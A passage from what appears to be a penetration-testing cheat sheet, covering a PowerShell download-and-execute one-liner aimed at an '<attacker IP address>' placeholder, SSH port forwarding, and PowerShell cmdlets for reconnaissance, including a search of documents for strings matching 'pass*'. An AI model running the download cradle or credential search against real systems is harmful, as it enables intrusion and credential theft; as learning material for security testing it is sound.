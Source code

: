 #### Via Powershell

> powershell.exe -nop -ep bypass -C iex <New-Object Net.Webclient>.DownloadString('http://<attacker IP address:<httpserver port>/<file>'); <Invoke file download if powershell file>

# Anonymity

## Port Forwarding

> ssh -L [LOCAL PORT TO LISTEN ON]:[REMOTE MACHINE]:[REMOTE PORT] [USERNAME]@[SSHSERVER]

EXAMPLE SCENARIO: ssh–L 3000:homepc:23 root@mybox

This creates a connection to the SSH server then create a connection with protocol you set as the port to listen on. 

> telnet <localhost>:3000. This creates a connection to the box using telnet but going through the SSH tunnel on port 3000.

Another example: ssh -L 3000:localhost:3306 els@192.168.231.135

Then connect to the mysql service with a mysql command:

> mysql -h 127.0.0.1 -P 3000 -u root

# Powershell

## Useful cmdlets

1. Get-Process - Listing of all processes. 

2. Get-ChildItem - Lists items in a directory, can also use the "ls" command.

3. Get-WMIObject - Returns information about named WMI object. 

> PS C:\> Get-WmiObject -class win32_operatingsystem | select -Property *

4. Access windows Registry Hives: 

> cd HKLM:\

5. Select-String with the -Path and -Pattern argument is a useful cmdlet to scour the system for files containing certain strings. 

> Select-String -Path C:\users\user\Documents\*.txt -Pattern pass*

6. Get-Content - display full contents of a file. 

7. Get-Service - cmdlet that will get information about the installed services and can be useful in the case we can ID a service which might be vulnerable. 

### Useful Modules

A module is a set of powershell functionalities grouped together in the form of a single file that will have a ".psm1" file extension. 
